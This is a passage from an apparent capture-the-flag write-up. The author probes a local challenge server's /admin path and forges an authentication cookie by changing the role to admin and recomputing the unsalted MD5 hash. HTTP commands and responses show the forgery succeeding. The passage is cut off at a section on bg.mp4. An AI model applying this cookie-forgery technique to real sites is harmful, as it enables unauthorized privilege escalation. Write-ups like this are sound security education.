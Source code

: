 This looks interesting. Let's try that `/admin` path:

```
$ http localhost:1337/admin 'Cookie: {"authentication":"successful","role":"user"};06072a903d7757beb104f1bc4cc35a70'
HTTP/1.1 403 Forbidden
Content-Length: 29
Content-Type: application/json
Date: Mon, 26 Sep 2022 03:33:19 GMT

{
    "error": "permission denied"
}
```

Perhaps we need to change the role from `user` to `admin`?

```
$ http localhost:1337/admin 'Cookie: {"authentication":"successful","role":"admin"};06072a903d7757beb104f1bc4cc35a70'
HTTP/1.1 400 Bad Request
Content-Length: 20
Content-Type: application/json
Date: Mon, 26 Sep 2022 03:34:06 GMT

{
    "error": "mismatch"
}

```

This error leads us to believe that trailing value is used to validate? What kind of value is it? It looks like an md5 hash.

```
$ echo -n '{"authentication":"successful","role":"user"}'|md5sum
06072a903d7757beb104f1bc4cc35a70  -
```

What if we recalculate?

```
$ http localhost:1337/admin 'Cookie: {"authentication":"successful","role":"admin"};af1e79f14f245b1f9233f286e20b64ad'
HTTP/1.1 200 OK
Content-Length: 14
Content-Type: application/json
Date: Mon, 26 Sep 2022 03:54:38 GMT

{
    "good": "job"
}
```

This doesn't lead us to the flag.

### bg.mp4
Looking at bg.mp4, we see something in strings:
